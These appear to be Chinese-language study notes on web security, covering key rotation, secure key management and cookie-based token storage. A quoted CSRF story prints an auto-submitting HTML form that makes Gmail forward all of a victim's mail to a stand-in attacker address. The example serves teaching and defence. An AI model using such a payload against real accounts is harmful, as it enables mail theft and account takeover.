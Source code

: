 **安全更新和备份**

- **定期更新**：定期更换私钥，并确保旧密钥不再使用，减少长期使用同一密钥的风险。
- **安全备份**：将私钥备份在安全的地方，并确保备份数据的加密和访问控制。

## 如何保证公钥和私钥的安全更新？

**使用可信工具**:使用 OpenSSL、Java KeyTool 等工具生成密钥，确保密钥生成过程的安全性

**密钥替换周期**

- **定期轮换**：根据安全需求和行业标准，定期更换密钥。通常建议每 1-2 年更换一次，但对于高风险的应用，可以更频繁地更换。
- **紧急更换**：在检测到潜在的安全威胁或密钥泄露时，立即更换密钥。

**自动化密钥管理**

- **自动化工具**：使用工具和脚本自动化密钥生成、分发和更新流程，减少人为错误。
- **密钥版本管理**：实现密钥版本控制，每次更新都生成一个新版本，逐步替换旧版本，并确保新旧密钥的兼容性。

**密钥更新通知**

- **前端同步更新**：后端密钥更新后，通过安全的通知机制将新公钥分发到前端，前端在下一次更新时使用新公钥。
- **密钥有效期**：使用密钥的有效期管理机制，确保在旧密钥失效前及时更换新密钥。

## 登录标志（Token）

#### 推荐的存储方式

1. **使用 Cookie 存储 Token**

    - **HttpOnly 和 Secure**：设置 HttpOnly 属性，防止 JavaScript 读取。设置 Secure 属性，仅允许在 HTTPS 连接中传输。
    - **SameSite 属性**：设置为 `Strict` 或 `Lax`，防止 CSRF 攻击。

   > **什么是 CSRF 攻击**？
   >
   > 这一天，小明同学百无聊赖地刷着Gmail邮件。大部分都是没营养的通知、验证码、聊天记录之类。但有一封邮件引起了小明的注意：
   >
   > > 甩卖比特币，一个只要998！！
   >
   > 聪明的小明当然知道这种肯定是骗子，但还是抱着好奇的态度点了进去（请勿模仿）。果然，这只是一个什么都没有的空白页面，小明失望的关闭了页面。一切似乎什么都没有发生……
   >
   >
   在这平静的外表之下，黑客的攻击已然得手。小明的Gmail中，被偷偷设置了一个过滤规则，这个规则使得所有的邮件都会被自动转发到hacker@hackermail.com。小明还在继续刷着邮件，殊不知他的邮件正在一封封地，如脱缰的野马一般地，持续不断地向着黑客的邮箱转发而去。
   >
   > 不久之后的一天，小明发现自己的域名已经被转让了。懵懂的小明以为是域名到期自己忘了续费，直到有一天，对方开出了 $650
   的赎回价码，小明才开始觉得不太对劲。
   >
   > 小明仔细查了下域名的转让，对方是拥有自己的验证码的，而域名的验证码只存在于自己的邮箱里面。小明回想起那天奇怪的链接，打开后重新查看了“空白页”的源码：
   >
   > ```javascript
   > <form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
   >     <input type="hidden" name="cf2_emc" value="true"/> 
   >     <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/> 
   >     .....
   >     <input type="hidden" name="irf" value="on"/> 
   >     <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
   > </form> 
   > <script> 
   >     document.forms[0].submit();
   > </script>
   > ```
   >
   > > 这个页面只要打开，就会向Gmail发送一个post请求。请求中，执行了“Create Filter”命令，将所有的邮件，转发到“hacker@hackermail.com”。
   > >
   > > 小明由于刚刚就登陆了Gmail，所以这个请求发送时，携带着小明的登录凭证（Cookie），Gmail的后台接收到请求，验证了确实有小明的登录凭证，于是成功给小明配置了过滤器。